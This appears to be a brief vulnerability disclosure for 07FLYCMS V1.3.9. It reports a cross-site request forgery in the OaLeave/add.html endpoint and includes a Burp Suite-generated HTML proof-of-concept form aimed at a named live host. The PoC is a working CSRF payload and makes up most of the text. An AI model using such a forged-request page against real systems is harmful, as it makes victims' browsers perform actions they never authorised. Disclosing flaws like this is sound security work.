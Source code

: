 target:https://github.com/lingqifei/07fly-crm version: V1.3.9

07FLYCMS V1.3.9 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component http://erp.07fly.net:80/oa/OaLeave/add.html

POC:

<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://erp.07fly.net:80/oa/OaLeave/add.html" method="POST">
      <input type="hidden" name="type" value="1" />
      <input type="hidden" name="start_time" value="2024-10-17+21%3A06%3A00" />
      <input type="hidden" name="end_time" value="" />
      <input type="hidden" name="reason" value="cs" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
